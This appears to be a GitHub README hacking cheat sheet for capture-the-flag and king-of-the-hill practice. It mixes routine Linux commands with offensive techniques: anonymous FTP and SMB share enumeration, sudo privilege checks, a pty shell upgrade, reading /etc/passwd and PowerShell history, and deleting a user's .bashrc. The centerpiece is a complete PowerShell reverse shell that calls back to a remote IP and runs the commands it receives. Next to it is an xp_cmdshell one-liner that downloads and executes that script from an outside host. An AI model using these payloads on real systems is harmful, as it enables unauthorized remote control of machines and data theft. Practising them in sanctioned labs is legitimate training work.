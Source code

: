 # hacking-cheatsheet
📑 _A hacking cheat sheet to help you cover all the basic needs_

_ps: i'll be updating this cheat sheet every week_


## Simple file transfering using SFTP
```bash 
sftp user@remoteip
sftp > put file
```

that's all we need to transfer files from local machine to remote servers as easy as possible

## Extracting tar files
```bash
tar -xvf archive.tar
```
used to exctrat files commonly present in CTFs programs

## Verifying SHA256 checksum in linux
```bash
sha256sum <filename>
```
`ps: we can compare the checksum with the sums file (in case you download it) using -c flag`

### Explaining /dev/null command in CTFs and privilege escalation techniques
```bash
<code here> 2>/dev/null
# /dev/null stands for null device on linux system, it operates just like a black hole, 
# throwing all outputs over there
```
`>` operator stands for redirection
`2` stands for error files

that's because all linux commands generates three main files associated with it

0 = standard input

1 = standard output

2 = standard error

So that's why 2>/dev/null is used to drop errors inside the Linux system's black hole.

## Simple kill process 
```bash
sudo kill <pid> 
```

## Using a simple SOCKS Proxy
```bash
ssh <remoteip> -l <username> -D 127.0.0.1:1080
# -D enables socks proxy binding our machine's traffic with the remote one
```
We can use it along Burp Suite to forward all the VPS's traffic through our local machine
using the burp's proxy on the local browser at the same time

`ps: here you will need to configure burp as well`

## Anonymous login
```bash
ftp <target ip address>
username: anonymous
password: [enter key]
```

## smbclient
```bash
# connects to the target listing all the shared documents
smbclient -N -L \\\\target ip\\ # -N supress the password prompt
smbclient -N \\\\target ip\\openshares

get <file> # downloads the file
more <file> # outputs the content file without the needing to download 
# in our local machine
```

## User enum and permissions
```bash
sudo -l # checks which commands we can execute on the system
id # checks users permissions

find / -group <groupname> 2>/dev//null # to find a specific group name
```

## Upgrading our shell
```bash 
python -c 'import pty; pty.spawn("/bin/bash")'
# here pty module let's us spawn a pseudo terminal
```

## Reverse shell ps1
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

// execute the xp_cmd command bellow on the compromised target system 
// on a xp_cmdshell environment 

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.139/powershell_reverse_shell.ps1\");"
```

## Discovering Powershell history
```bash
type C:\Users\<groupname>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Restrict user bash 
useful when practicing KOTH / Battlegrounds
```bash
chsh -s /bin/rbash <username>
```
## remove users .bashrc file
```bash
rm /home/username/.bashrc
```
## fetches all users in /etc/passwd file
```bash
cut -f1 -d: /etc/passwd
```

## check all services running (forest format)
Useful for identifying attackers on the same machine
| we can track all ssh sessions including meterpreter access
```bash
ps -aef --forest 
``` 

## user login/logout connection info
```bash 
last -aiF
```
